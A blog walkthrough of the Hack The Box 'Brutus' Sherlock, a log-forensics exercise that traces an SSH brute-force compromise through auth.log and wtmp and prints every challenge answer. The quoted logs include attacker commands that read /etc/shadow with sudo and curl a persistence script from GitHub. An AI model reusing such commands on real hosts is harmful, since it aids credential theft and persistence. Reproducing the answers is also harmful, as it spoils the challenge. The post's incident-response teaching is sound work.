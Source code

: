 ```yaml
---
layout: single
title: "Step-by-step walkthrough of the Brutus Sherlock from HTB"
date: 2025-09-25
author_profile: true
comments: true
share: true
categories: HTB-sherlocks
tags: []
header:
  overlay_image: /assets/images/brutus/cover.png
  overlay_filter: 0.3  # optional, darkens the image for readability
  caption: "Brutus Sherlock Walkthrough"
excerpt: "Step-by-step walkthrough of the Brutus Sherlock from HTB."
feature_row:
  - image_path: /assets/images/brutus/cover.png
    alt: "Brutus Sherlock Cover"
    title: "Brutus Sherlock Walkthrough"
    excerpt: "A practical guide to solving the Brutus sherlocks."
    url: "#"
    btn_label: "Read More"
    btn_class: "btn--primary"
toc: true
toc_sticky: true
---
```

# Brutus

After unzipping the provided evidence, two key artifacts were available for analysis:

- **`auth.log`** → Linux authentication log
- **`wtmp`** → Binary login record file

Additionally, custom tools were provided to parse the `wtmp` file, as the default utilities may cause issues depending on system architecture.

![](/assets/images/brutus/image.png)

To ensure time consistency, the `TZ=UTC` environment variable was set before analyzing the logs. This prevents timezone mismatches that could lead to incorrect timestamps during the investigation. By utilizing Python tools, I obtained nicely formatted JSON-converted data.

![](/assets/images/brutus/image1.png)

![](/assets/images/brutus/image2.png)

Let's examine the auth.log file. It contains log timestamps, source IP addresses, service names with PIDs, messages, and a variety of other information.

```sql
kali:~$ head -50 auth.log                                                                                                   
Mar  6 06:18:01 ip-172-31-35-28 CRON[1119]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)                                 
Mar  6 06:18:01 ip-172-31-35-28 CRON[1118]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)                                 
Mar  6 06:18:01 ip-172-31-35-28 CRON[1117]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)                                 
Mar  6 06:18:01 ip-172-31-35-28 CRON[1118]: pam_unix(cron:session): session closed for user confluence                                                     
Mar  6 06:18:01 ip-172-31-35-28 CRON[1119]: pam_unix(cron:session): session closed for user confluence                                                     
Mar  6 06:18:01 ip-172-31-35-28 CRON[1117]: pam_unix(cron:session): session closed for user confluence                                                     
Mar  6 06:19:01 ip-172-31-35-28 CRON[1366]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)                                 
Mar  6 06:19:01 ip-172-31-35-28 CRON[1367]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)                                 
Mar  6 06:19:01 ip-172-31-35-28 CRON[1366]: pam_unix(cron:session): session closed for user confluence                                                     
Mar  6 06:19:01 ip-172-31-35-28 CRON[1367]: pam_unix(cron:session): session closed for user confluence                                                     
Mar  6 06:19:52 ip-172-31-35-28 sshd[1465]: AuthorizedKeysCommand /usr/share/ec2-instance-connect/eic_run_authorized_keys root SHA256:4vycLsDMzI+hyb9OP3wd1
8zIpyTqJmRq/QIZaLNrg8A failed, status 22                                                                                                                   
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
Mar  6 06:19:54 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user root(uid=0) by (uid=0)
```

Before we delve into a detailed analysis, let's first identify the programs being executed to gain an overview of what we're working with. This can be considered a form of reconnaissance. We can easily extract the list of executed programs using the following command.

```sql
awk '{print $5}' auth.log| sed 's/[\[\:].*//g'|sort|uniq -c|sort -n

1 chfn ==> change real user name and information
1 passwd ==> change user password
1 useradd ==> create a new user or update default new user information
2 systemd ==> systemd system and service manager
2 usermod ==> modify a user account
3 groupadd ==> create a new group
6 sudo ==> execute a command as another user
8 systemd-logind ==> Login manager
104 CRON ==> daemon to execute scheduled commands (Vixie Cron)
257 sshd ==> OpenSSH remote login client
```

User creation, user information changes, password changes, sudo commands, login manager entries, and 257 `sshd` records in this `auth.log` file all indicate something suspicious. Let’s take a closer look at the logs related to `sshd`. Some of the entries do not seem useful to me.

![](/assets/images/brutus/image 3.png)

Lets remove all the lines contains `pam_unix` for more clear view.  We can do it by utilizing the `-v` flag with the grep command. Multiple failed login attempt from same ip address and same time indicates brute-force attack. 

![](/assets/images/brutus/image4.png)

Lets proceed the analysis now based on the questions.

**`Question` Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?**

`Solution` Lets grab all the Ip address in this file and how many time a IP appeared in this file.

```sql
kali:~$ grep sshd auth.log | grep -v pam_unix | grep -oP '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'| sort | uniq -c
      1 172.31.35.28
      1 203.101.190.9
    170 65.2.161.68
```

The IP addresses 172.31.35.28 and 203.101.190.9 each appear only once in this file, whereas 65.2.161.68 appears 170 times, which is a clear indication of a brute-force attack.

`Ans` 65.2.161.68

**`Question` The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**

`Solution` Since the brute-force attack was successful, there should be an 'Accepted' message. The attacker’s IP was 65.2.161.68. Let’s filter the SSH logs based on this condition.

```sql
kali:~$ grep sshd auth.log | grep -v pam_unix | grep "Accepted" | grep 65.2.161.68
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
```

Based on the timestamp, the account appears to be `root`. `cyberjunkie` logged in about six minutes later.

`Ans` root

**Question: Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**

`Solution`: We already know the attacker IP address & the compromised user account was root.

```sql
kali:~$ cat wtmp.out| grep 65.2.161.68 | grep root
"USER"  "2549"  "pts/1" "ts/1"  "root"  "65.2.161.68"   "0"     "0"     "0"     "2024/03/06 06:32:45"   "387923"        "65.2.161.68"
```

`Ans` 2024-03-06 06:32:45

**`Question` SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**

`Solution`: Login data should be handled by `systemd-logind`. Let’s filter the logs based on this program.

```sql
kali:~$ grep systemd-logind auth.log     
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: Session 34 logged out. Waiting for processes to exit.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: Removed session 34.
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
```

Ans:- 37

**`Question`The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**

`Solution` We can filter logs based on new user creation and higher privileges, and only one user account has come up.

```sql
kali:~$ grep -E "useradd|usermod" auth.log 
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

`Ans` cyberjunkie

**`Question` What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**

`Solution` Review the Persistence → Create Account technique on the MITRE ATT&CK site. The attacker created a local useron the host and granted it high privileges, so the correct classification is Local Account (T1136.001).

![](/assets/images/brutus/image5.png)

`Ans` T1136.001

**`Question` What time did the attacker's first SSH session end according to auth.log?**

`Solution` Session **34** started and ended at the same second (**06:31:40**), which indicates the attacker’s initial successful brute-force login attempt terminated immediately. In contrast, Session **37** lasted **4 minutes 40 seconds** (06:32:44 → 06:37:24), which is consistent with a manual/interactive login.

```sql
kali:~$ grep systemd-logind auth.log
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: Session 34 logged out. Waiting for processes to exit.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: Removed session 34.
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
```

`Ans` 2024-03-06 06:37:24

**`Question` The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**

`Solution` Auth.log normally does *not* record every command a user runs. However, when a command is executed with `sudo`, it is recorded in `auth.log` because `sudo` performs an authentication step and the system logs that privileged action (including the invoking user, TTY, working directory, target user, and the full command).

```sql
kali:~$ grep sudo auth.log                
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:39 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
```

`Ans` /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh